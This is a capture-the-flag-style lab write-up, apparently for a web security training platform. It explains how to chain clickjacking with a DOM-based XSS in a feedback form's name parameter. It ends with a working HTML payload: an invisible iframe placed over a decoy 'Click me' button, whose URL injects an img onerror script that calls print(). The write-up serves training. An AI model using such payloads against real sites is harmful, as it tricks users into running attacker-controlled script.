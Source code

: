 # Exploiting clickjacking vulnerability to trigger DOM-based XSS
# Objective
This lab contains an XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the `print()` function. 

# Solution
## Analysis
Website has submit feedback functionality and allows for prepopulation of fields via `GET` parameters.

|![](Images/image-9.png)|
|:--:| 
| *Submit feedback functionality* |
|![](Images/image-12.png)|
| *Prepopulation of fields via GET parameters* |

## Exploitation
### XSS
In submit feedback functionality, in `name` field, there is a DOM XSS vulnerability.

|![](Images/image-8.png)|
|:--:| 
| *DOM XSS vulnerability* |
|![](Images/image-10.png)|
| *Vulnerable code* |

### Clickjacking exploitation

|![](Images/image-11.png)|
|:--:| 
| *Target - Submit feedback button* |
|![](Images/image-13.png)|
| *Alligining manually "Click me" button* |
| *Changing opacity* |

Final payload:
```html
<style>
    iframe {
        position:relative;
        width: 1000;
        height: 1000;
        opacity: 0.001;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 820;
        left: 70;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a4b009b03db43a9802b039a00190041.web-security-academy.net/feedback?name=%3Cimg%20src=0%20onerror=%27print()%27%3E&email=victim@victim.com&subject=exploit&message=exploit"></iframe>
```